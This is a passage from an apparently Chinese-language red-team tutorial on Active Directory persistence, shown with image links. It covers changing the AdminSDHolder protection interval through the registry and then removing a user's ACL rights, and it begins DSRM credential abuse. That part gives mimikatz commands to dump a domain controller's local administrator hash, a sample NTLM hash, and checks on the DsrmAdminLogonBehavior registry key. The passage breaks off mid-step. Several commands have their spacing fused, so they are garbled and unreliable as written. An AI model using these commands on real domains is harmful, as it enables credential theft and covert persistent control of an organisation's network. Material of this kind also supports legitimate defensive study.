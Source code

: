 ![](https://gitee.com/fuli009/images/raw/master/public/20210816192545.png)![](https://gitee.com/fuli009/images/raw/master/public/20210816192546.png)

默认会等待60分钟，可以通过修改注册表来设置为60秒后触发。

    
    
    reg add hklm\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v AdminSDProtectFrequency/t REG_DWORD /d 1/f

![]()

## 3.4 恢复

恢复触发时间

    
    
    reg add hklm\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v AdminSDProtectFrequency/t REG_DWORD /d 120/f

取消jack用户对adminSDHolder的权限

    
    
    Remove-DomainObjectAcl-TargetSearchBase"LDAP://CN=AdminSDHolder,CN=System,DC=redteam,DC=local"-PrincipalIdentity jack -RightsAll-Verbose

![](https://gitee.com/fuli009/images/raw/master/public/20210816192547.png)

# 0x04 DSRM凭证

每个DC内部都有一个本地管理员账户，在该机器上拥有管理员权限。

## 4.1 获取本地管理员hash

    
    
    token::elevatelsadump::sam

![](https://gitee.com/fuli009/images/raw/master/public/20210816192547.png)

得到hash为：

    
    
    852a844adfce18f66009b4f14e0a98de

## 4.2 检查是否工作

如果注册表项的值为0或者不存在，需要将其设置为2。

检查key是否存在并且获取值：

    
    
    Get-ItemProperty"HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA"-name DsrmAdminLogonBehavior

如果不存在则创建值为2的键：
